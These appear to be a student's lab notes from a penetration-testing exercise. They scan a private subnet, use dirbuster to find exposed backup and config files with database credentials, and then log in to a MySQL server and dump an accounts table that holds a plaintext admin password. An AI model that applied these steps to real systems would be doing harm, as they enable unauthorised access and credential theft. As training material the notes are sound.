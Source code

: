 # Dirbuster Lab Notes

My IP: `10.104.11.50`

1. Scan network
	- `nmap 10.104.11.0/24`

### Pingable IPs
- `10.104.11.96`
	- Ports open: 22, 80
	- **Web Server**
- `10.104.11.198`
	- Ports open: 22, 3306
	- MySQL?
---
- File extensions to use with dirbuster:
	- `.old, .bak, .xxx`

- Files found:
	- http://10.104.11.96/include/config.old
		- Contains SQL creds:
			- `awd:UcuicjsQgG0FILdjdL8D`
	- http://10.104.11.96/staff/readme.txt
	- http://10.104.11.96/signup.php
		- ```
			@Dev team: the DB credentials are
			Username:   awdmgmt
			Password:   UChxKQk96dVtM07
			Host:       10.104.11.198
			DB:         awdmgmt_accounts
			DMBS:       MySQL
			```
Connect to given DB: `mysql -h 10.104.11.198 -u awdmgmt -pUChxKQk96dVtM07`

```bash
MySQL [(none)]> use awdmgmt_accounts
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [awdmgmt_accounts]> show tables;
+----------------------------+
| Tables_in_awdmgmt_accounts |
+----------------------------+
| accounts                   |
+----------------------------+
1 row in set (0.043 sec)

MySQL [awdmgmt_accounts]> select * from accounts;
+----+--------------------+----------+-------------+
| id | email              | password | displayname |
+----+--------------------+----------+-------------+
|  1 | admin@awdmgmt.labs | ENS7VvW8 | Admin       |
+----+--------------------+----------+-------------+
1 row in set (0.047 sec)
```
We're in!

